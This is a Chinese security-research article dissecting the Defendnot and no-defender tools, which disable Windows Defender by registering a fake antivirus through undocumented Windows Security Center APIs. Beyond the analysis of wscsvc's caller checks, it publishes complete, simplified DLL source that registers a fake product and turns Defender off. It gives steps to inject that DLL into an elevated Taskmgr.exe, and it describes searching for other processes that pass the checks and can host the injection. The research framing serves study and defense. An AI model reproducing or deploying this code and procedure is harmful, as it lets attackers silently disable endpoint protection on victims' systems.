# 揭秘黑科技：WSC隐藏API如何悄无声息禁用Windows Defender-先知社区

> **来源**: https://xz.aliyun.com/news/18063  
> **文章ID**: 18063

---

## 概述

近期，笔者在日常研究过程中，发现了一款名为Defendnot的创新开源工具，简单使用后，笔者对其产生了浓厚的兴趣，深度研究后，笔者认为这简直就是一个伟大的研究。

因为，这款Defendnot开源工具可直接模拟杀毒软件的安装部署过程，**直接调用Windows安全中心（WSC, Windows Security Center）的未公开API（需要杀软厂商与微软签署保密协议（NDA, Non-Disclosure Agreement）才能获取官方文档）**，通知Windows系统存在替代Windows Defender防病毒软件的其他杀软程序，从而自动禁用Windows Defender服务，以避免杀软冲突。

进一步对此开源工具进行分析，梳理发现：

* 此款Defendnot开源工具其实是no-defender开源工具的升级版本；
* no-defender开源工具于2024年5月23日发布，短短几周就在GitHub上获得了1.5k星标；

* 工具原理：通过依赖avast杀毒软件的WSC通信组件，实现在WSC中注册自身；
* 工具现状：由于防病毒软件方提交了DMCA删除请求（备注：美国版权法），因此，no-defender项目于2024.06.08下架；

* Defendnot开源工具于2025年5月7日发布，从笔者开始关注起，短短几天时间，已经在GitHub上陆续从几百星标飙升到1.3k星标；

* 工具原理：直接利用WSC未公开API与WSC交互；

在es3n1n作者的博客网站上，es3n1n作者对Defendnot项目研究的心路历程进行了详细描述，但暂未对项目中所涉及的技术细节进行深度剖析。因此，为了详细搞清楚利用Windows安全中心未公开API禁用Windows Defender的底层原理，笔者将通过如下角度对其进行详细研究：

* WSCSVC（Windows安全中心服务）简单剖析；
* 历史no-defender项目的运行效果及禁用Windows Defender的实现原理剖析；
* 最新defendnot项目的运行效果及禁用Windows Defender服务实现原理剖析；
* 基于动态调试技术，深度探究WSC（Windows安全中心）未公开API的底层调用实现原理；
* 基于第三方工具捕获并提取最新defendnot项目工具与系统WSCSVC（Windows安全中心服务）之间的RPC协议通信内容；
* 基于WSC（Windows安全中心）未公开API的调用方法，定制化修改defendnot.dll的代码实现，使其更便于调试研究；
* 深度剖析WSCSVC（Windows安全中心服务）接收RPC方法注册杀毒软件时，对杀毒软件程序的检测方法及绕过方法；

## Windows安全中心服务

通过分析，梳理WSCSVC（Windows安全中心服务）的相关信息如下：

* WSCSVC服务对应的服务DLL为：C:\windows\system32\wscsvc.dll；
* WSCSVC服务提供了COM API接口，以便软件供应商向Windows安全中心服务注册并记录防火墙、防病毒、反间谍软件等产品的状态；
* WSCSVC服务的详细描述信息为：`WSCSVC(Windows 安全中心)服务监视并报告计算机上的安全健康设置。健康设置包括防火墙(打开/关闭)、防病毒(打开/关闭/过期)、反间谍软件(打开/关闭/过期)、Windows 更新(自动/手动下载并安装更新)、用户帐户控制(打开/关闭)以及 Internet 设置(推荐/不推荐)。该服务为独立软件供应商提供 COM API 以便向安全中心服务注册并记录其产品的状态。安全和维护 UI 使用该服务在“安全和维护”控制面板中提供 systray 警报和安全健康状况的图形视图。网络访问保护(NAP)使用该服务向 NAP 网络策略服务器报告客户端的安全健康状况，以便进行网络隔离决策。该服务还提供一个公共 API，以允许外部客户以编程方式检索系统的聚合安全健康状况。`

WSCSVC服务截图如下：



## 历史no-defender项目

由于no-defender项目已经被删除，因此我们直接访问原项目地址已经无法获取项目内容。

尝试在Github上搜索no-defender项目，发现能找到其他用户备份的项目内容。

相关截图如下：





### 运行效果剖析

尝试提取no-defender项目的二进制程序，梳理关键文件信息如下：

* no-defender-loader.exe：no-defender服务配置工具
* powrprof.dll：no-defender的hook实现
* wsc\_proxy.exe：avast杀软的wsc通信程序，用于加载wsc.dll文件，带avast杀软的数字签名；
* wsc.dll：avast杀软的wsc通信组件，带avast杀软的数字签名；

相关截图如下：





进一步分析，发现知道创宇404实验室曾在2024年9月4日发布了一篇《通过杀软 avast 及 no-defender 工具分析 Windows 防护机制》文章，详细讲解了no-defender工具中所涉及的技术细节。

no-defender工具运行截图如下：





### 实现原理剖析

为了进一步理解no-defender项目的底层实现原理，笔者尝试对no-defender项目的源码进行了剖析，梳理如下：

* no-defender-loader.exe

* 主要用于将wsc\_proxy.exe程序注册为wsc\_proxy服务，服务启动命令为：`"C:\Users\admin\Desktop\
  o-defender-binary-main\wsc_proxy.exe" /runassvc /rpcserver /wsc_name:"github.com/es3n1n/no-defender"`

* wsc\_proxy.exe

* avast杀软组件程序
* 主要用于加载wsc.dll的run函数，并将运行参数传递给wsc.dll

* wsc.dll

* avast杀软组件DLL
* 主要用于调用WSC服务注册杀毒软件
* DLL加载过程中会加载调用系统C:\Windows\System32\powrprof.dll文件的CallNtPowerInformation函数
* 由于在本地目录下构建了powrprof.dll文件，因此wsc.dll将首先加载本地目录下的powrprof.dll文件

* powrprof.dll

* 主要用于辅助wsc\_proxy服务的正常运行，确保在wsc\_proxy服务初始化过程中，部分API的正常调用
* powrprof.dll的DllMain函数

* 调用LoadLibraryA函数加载系统C:\Windows\System32\powrprof.dll文件
* 加载执行hook代码

* CallNtPowerInformation导出函数：powrprof.dll模拟了CallNtPowerInformation函数功能，当wsc.dll调用CallNtPowerInformation函数时，powrprof.dll可通过加载调用系统C:\Windows\System32\powrprof.dll的CallNtPowerInformation函数的方式实现功能调用
* hook代码：基于MinHook框架实现CreateFileW、DeviceIoControl、I\_RpcBindingInqLocalClientPID、WaitForSingleObject函数的HOOK劫持

#### no-defender-loader.exe

no-defender-loader.exe源码截图如下：



wsc\_proxy服务截图如下：



#### wsc\_proxy.exe

wsc\_proxy.exe反编译代码截图如下：



#### wsc.dll

wsc.dll导入表截图如下：



#### powrprof.dll

powrprof.dll源码中DllMain函数代码截图如下：



powrprof.dll源码中hook代码截图如下：



powrprof.dll的导出函数截图如下：



## 最新defendnot项目

defendnot项目其实是no-defender项目的升级版本，项目截图如下：



### 运行效果剖析

提取defendnot项目的二进制程序，梳理关键文件信息如下：

* defendnot-loader.exe：用于创建Taskmgr.exe进程，并将defendnot.dll注入至Taskmgr.exe进程中
* defendnot.dll：调用WSC服务的未公开API，实现向WSC注册杀软的效果

相关截图如下：



defendnot工具运行截图如下：



### 实现原理剖析

为了进一步理解defendnot项目的底层实现原理，笔者尝试对defendnot项目的源码进行了剖析，梳理如下：

* defendnot-loader.exe

* 基于远程线程注入技术将defendnot.dll注入至Taskmgr.exe进程中

* defendnot.dll

* **模拟构建IWscAVStatus类，将Register、UpdateStatus函数声明为虚函数（推测WSC COM组件中实现了IWscAVStatus类的派生，实现了Register、UpdateStatus函数功能）**
* IWscAVStatus\* get()：通过COM接口获取WSC interface
* Register函数：将防病毒产品注册到Windows安全中心
* UpdateStatus函数：更新已注册的防病毒产品的状态信息

#### defendnot-loader.exe

defendnot-loader.exe程序的注入代码截图如下：



#### defendnot.dll

defendnot.dll通过COM接口实现WSC未公开API的调用代码截图如下：





## 深度探究WSC未公开API

基于defendnot项目源码，我们大概知道defendnot项目的实现原理，但IWscAVStatus类的Register、UpdateStatus函数功能具体是怎么调用的？我们可能比较疑惑，所以，接下来，笔者将通过动态调试的方法深度探究WSC未公开API。

尝试梳理核心关注点如下：

* defendnot项目工具的核心功能组件

* defendnot.dll文件：用于调用WSC服务未公开API的核心功能组件；

* defendnot.dll组件的关键代码函数

* 与WSC服务有关的关键代码函数：IWscAVStatus类中的CoCreateInstance、Register、UpdateStatus函数调用；

**备注：系统dll的pdb信息可使用symchk工具下载获取**

### 动态调试

基于动态调试，尝试对关键代码函数进行剖析，梳理如下：

* CoCreateInstance函数用于获取WSC服务的COM接口

* 函数代码参数值如下：

```
inline GUID RCLSID = {0x0F2102C37, 0x90C3, 0x450C, {0x0B3, 0x0F6, 0x92, 0x0BE, 0x16, 0x93, 0x0BD, 0x0F2}};
inline GUID IID_IWscAVStatus = {0x3901A765, 0x0AB91, 0x4BA9, {0xA5, 0x53, 0x5B, 0x85, 0x38, 0xDE, 0xB8, 0x40}};
CoCreateInstance(detail::RCLSID, 0, 1, detail::IID_IWscAVStatus, reinterpret_cast<LPVOID*>(&result))
```

* CoCreateInstance函数的实际代码实现在系统C:\Windows\System32\combase.dll文件中

* 系统C:\Windows\System32\wscisvif.dll中

* CWscIsv派生类实现了IWscAVStatus类的Register、UpdateStatus函数功能

* 在实际Register、UpdateStatus函数的调用过程中

* Register函数将最终调用CWscIsv类的RegisterAV函数
* UpdateStatus函数将最终调用CWscIsv类的UpdateStatusAV函数

* **CoCreateInstance、Register、UpdateStatus函数的执行成功返回值为0**

CoCreateInstance调用截图如下：





### Register函数实现

尝试对系统底层文件进行调试分析，梳理Register函数调用逻辑如下：

* defendnot.dll调用IWscAVStatus类的`Register`函数
* 加载执行C:\Windows\System32\wscisvif.dll的`_IWscAVStatus4<CWscIsv>::Register`函数
* 加载执行C:\Windows\System32\ntdll.dll的`LdrpDispatchUserCallTarget`函数
* 加载执行**C:****\****Windows****\****System32****\****wscisvif.dll的**`CWscIsv::RegisterAV`**函数**

* 调用`CWscIsv::CallOrQueueFunction<RegisterSecurityProductFunction`函数
* 调用C:\Windows\System32\wscapi.dll的`wscRegisterSecurityProduct`函数
* 调用C:\Windows\System32\rpcrt4.dll的`NdrClientCall3`函数
* 后续即为调用RPC方法与系统WSCSVC（Windows安全中心服务）的通信

相关代码截图如下：











### UpdateStatus函数实现

尝试对系统底层文件进行调试分析，梳理UpdateStatus函数调用逻辑如下：

* defendnot.dll调用IWscAVStatus类的`UpdateStatus`函数
* 加载执行C:\Windows\System32\wscisvif.dll的`_IWscAVStatus4<CWscIsv>::UpdateStatus`函数
* 加载执行C:\Windows\System32\ntdll.dll的`LdrpDispatchUserCallTarget`函数
* 加载执行**C:****\****Windows****\****System32****\****wscisvif.dll的**`CWscIsv::UpdateStatusAV`**函数**

* 调用`CWscIsv::UpdateStatusInternal`函数
* 调用C:\Windows\System32\wscapi.dll的`wscUpdateProductStatus`函数
* 调用C:\Windows\System32\rpcrt4.dll的`NdrClientCall3`函数
* 后续即为调用RPC方法与系统WSCSVC（Windows安全中心服务）的通信

相关代码截图如下：













### avast杀软的实现原理

在对es3n1n作者博客文章的研读过程中，es3n1n作者提到，其最开始就是基于avast杀软的wsc实现原理成功重建了WSC COM接口调用。

因此，我们尝试对avast杀软的wsc.dll文件进行简单分析，提取其WSC COM接口调用代码截图如下：











## 定制化defendnot.dll

为了更好的理解和测试WSC未公开API的调用方法，笔者尝试对defendnot.dll源码进行了精简化修改，使其代码逻辑更简单，更易于安全测试研究。

笔者基于如下步骤对defendnot.dll进行定制化修改测试，配合processhacker工具可成功实现禁用Windows Defender的效果：

* 编译精简化defendnot.dll代码，生成defendnot.dll文件；
* 管理员权限启动Taskmgr.exe进程；
* 使用processhacker向Taskmgr.exe进程注入defendnot.dll；

实际效果截图如下：



### 精简化defendnot.dll代码

项目文件列表截图如下：



* dllmain.cpp

```
#include "bootstrap/bootstrap.hpp"
#include <stdexcept>
#include <thread>

#include <Windows.h>

namespace {
    void entry_thread(HMODULE base) {
        try {
            defendnot::startup();
        } catch (std::exception& err) {
            MessageBoxA(nullptr, err.what(), "defendnot", MB_TOPMOST | MB_ICONERROR);
        }

        FreeLibraryAndExitThread(base, 0);
    }
} // namespace

BOOL __stdcall DllMain(HINSTANCE base, std::uint32_t call_reason, LPVOID reserved) {
    if (call_reason != DLL_PROCESS_ATTACH) {
        return TRUE;
    }

    const auto th = CreateThread(nullptr, 0, reinterpret_cast<LPTHREAD_START_ROUTINE>(entry_thread), base, 0, nullptr);
    if (th != nullptr) {
        CloseHandle(th);
    }

    return TRUE;
}
```

* bootstrap.cpp

```
#include "bootstrap.hpp"
#include "core/com.hpp"

#include <Windows.h>

namespace defendnot {
    void startup() {

        CoInitialize(nullptr);
        /// Get the main WSC interface we will be dealing with
        auto inst = IWscAVStatus::get();

        /// WSC will reject the register request if name is empty
        std::string avname = "T0daySeeker";
        auto name_w = std::wstring(avname.begin(), avname.end());
        if (name_w.empty()) {
            throw std::runtime_error("AV Name can not be empty!");
        }

        /// Convert to BSTR
        auto name = SysAllocString(name_w.c_str());

        // Register and activate our AV
        HRESULT hr2 = inst->Register(name, name);
        HRESULT hr3 = inst->UpdateStatus(WSCSecurityProductState::ON, 3);

        char message[256];
        _snprintf_s(message, sizeof(message), _TRUNCATE, "HR1: 0x%08X
HR2: 0x%08X
HR3: 0x%08X", inst, hr2, hr3);
        MessageBoxA(NULL, message, "HRESULT Values", MB_OK | MB_ICONINFORMATION);

        SysFreeString(name);
    }
} // namespace defendnot
```

* com.hpp

```
#pragma once
#include <format>
#include <source_location>
#include <stdexcept>
#include <thread>
#include <Windows.h>

namespace defendnot {
    namespace detail {
        inline GUID RCLSID = {0x0F2102C37, 0x90C3, 0x450C, {0x0B3, 0x0F6, 0x92, 0x0BE, 0x16, 0x93, 0x0BD, 0x0F2}};
        inline GUID IID_IWscAVStatus = {0x3901A765, 0x0AB91, 0x4BA9, {0xA5, 0x53, 0x5B, 0x85, 0x38, 0xDE, 0xB8, 0x40}};
    } // namespace detail

    enum class WSCSecurityProductState : std::uint32_t {
        ON = 0,
        OFF = 1,
        SNOOZED = 2,
        EXPIRED = 3
    };

    class IWscAVStatus {
    private:
        /// Incomplete stubs to just increase the vfunc id
        virtual HRESULT QueryInterface() = 0;
        virtual HRESULT AddRef() = 0;
        virtual HRESULT Release() = 0;

    public:
        virtual HRESULT Register(BSTR path_to_signed_product_exe, BSTR display_name) = 0;
        virtual HRESULT Unregister() = 0;
        virtual HRESULT UpdateStatus(WSCSecurityProductState state, std::uint32_t idk) = 0;

        static IWscAVStatus* get() {
            IWscAVStatus* result = nullptr;
            CoCreateInstance(detail::RCLSID, 0, 1, detail::IID_IWscAVStatus, reinterpret_cast<LPVOID*>(&result));
            return result;
        }
    };
} // namespace defendnot
```

## RPC方法调用

使用RPCMon工具，发现可成功捕获defendnot工具与系统wscsvc服务的RPC协议通信，远程调用的功能如下：

* s\_wscUnregisterSecurityProduct
* s\_wscRegisterSecurityProduct
* s\_wscUpdateProductStatus

相关截图如下：



## 如何选择被注入进程？

在es3n1n作者的博客文章中，虽然作者并未对defendnot项目中涉及的技术原理进行详细的剖析，但作者对此项研究的心路历程进行了详细描述。

通过对es3n1n作者的博客文章进行详细研读，发现整项研究过程中，作者花费时间最多的问题其实是在宿主程序的选择上；而WSC未公开API的调用上，作者反而很快就解决了。

因此，接下来，笔者将围绕es3n1n作者的心路历程，对相关技术细节进行详细的剖析。

### WSCSVC服务对宿主程序的检测

在上述“RPC方法调用”章节，我们尝试捕获了defendnot工具与wscsvc服务的通信RPC内容，接下来，我们将详细研究一下，wscsvc服务接收到RPC请求后，具体是如何对宿主程序进行检测的。

通过分析，梳理wscsvc服务对宿主程序的检测逻辑如下：

* wscsvc服务接收到s\_wscRegisterSecurityProduct请求后，将加载执行**C:\windows\system32\wscsvc.dll**服务DLL中的s\_wscRegisterSecurityProduct函数；
* s\_wscRegisterSecurityProduct函数中将加载调用CreateExternalBaseFromCaller函数；
* CreateExternalBaseFromCaller函数中将加载调用CRpcImpersonateClient::IsDefender函数；

* CRpcImpersonateClient::IsDefender函数将**调用CheckTokenMembership等API检查调用RPC方法的进程是否在令牌上具有WinDefend SID；**

* CreateExternalBaseFromCaller函数中将加载调用CSecurityVerificationManager::CreateExternalBaseFromPESettings函数；

* CSecurityVerificationManager::CreateExternalBaseFromPESettings函数将调用CSecurityVerificationManager::GetIsIntegrityEnforced函数；

* CSecurityVerificationManager::GetIsIntegrityEnforced函数将**调用ImageNtHeader等API检查PE结构的特定字段；**

* CSecurityVerificationManager::CreateExternalBaseFromPESettings函数**将调用CryptHashPublicKeyInfo等API校验数字签名；**

s\_wscRegisterSecurityProduct函数代码截图如下：



检查进程令牌的函数代码截图如下：



检查PE结构的特定字段函数代码截图如下：



校验数字签名的函数代码截图如下：



### 能否注入其他进程？

根据es3n1n作者博客文章中的介绍，es3n1n作者编写了一个wsc-binary-check.exe工具，专门用于检查`c:\\Windows\\System32`目录下符合wscsvc服务检测要求的进程，wsc-binary-check.exe工具的核心代码逻辑与上述WSCSVC服务对宿主程序的检测要求相同。

相关代码截图如下：



运行效果如下：



基于此，笔者琢磨，还有哪些程序可以作为宿主程序，因此，笔者尝试从如下角度进行研究：

* 修改wsc-binary-check.exe代码，使其接收指定文件路径作为命令行参数；
* 编写golang程序，基于指定exe文件列表循环调用wsc-binary-check.exe程序进行检测；
* 尝试对电脑上所有的exe文件进行**程序检测及实际测试**，最终发现除了System32、SysWOW64目录下的exe文件外，貌似只有杀软程序符合要求；

修改后的wsc-binary-check.exe程序运行效果如下：



golang程序运行效果如下：



golang程序代码如下：

```
package main

import (
    "bufio"
    "fmt"
    "os"
    "os/exec"
)

func FileToSlice(file string) []string {
    fil, _ := os.Open(file)
    defer fil.Close()
    var lines []string
    scanner := bufio.NewScanner(fil)
    for scanner.Scan() {
        lines = append(lines, scanner.Text())
    }
    return lines
}

func CmdExec(argArray []string) (string, error) {
    var data string
    c := exec.Command("cmd", argArray...)
    out, err := c.CombinedOutput()
    if err != nil {
        return data, err
    }
    data = string(out)
    return data, nil
}

func main() {
    datas := FileToSlice("1.txt")
    for _, data := range datas {
        argArray := []string{}
        argArray = append(argArray, `/C`)
        argArray = append(argArray, `wsc-binary-check.exe`)
        argArray = append(argArray, data)
        output, _ := CmdExec(argArray)
        fmt.Print(output)
    }
}
```

修改后的wsc-binary-check.exe工具main函数代码如下：

```
int main(int argc, char* argv[]) try {
    std::filesystem::path target_file = argv[1];
  
    auto ext = target_file.extension().string() //
                   | std::views::transform([](const char c) -> char { return ::tolower(c); }) //
                   | std::ranges::to<std::string>();

    if (!kTargetFileExts.contains(ext)) {
        return 1;
    }

    auto file = read_file(target_file);
    if (!file.has_value()) {
        std::println(stderr, "unable to read {}", target_file.string());
        return 1;
    }

    const std::span file_ptr = *file;
    if (!check_characteristics(file_ptr)) {
        return 1;
    }

    if (!check_signature(target_file)) {
        return 1;
    }

    std::println("matches: {}", target_file.string());

    return EXIT_SUCCESS;
} catch (const std::exception& e) {
    std::println(stderr, "fatal error: {}", e.what());
    return EXIT_FAILURE;
}
```

进一步测试，发现我们可使用Taskmgr.exe进程以外的进程进行注入，相关截图如下：


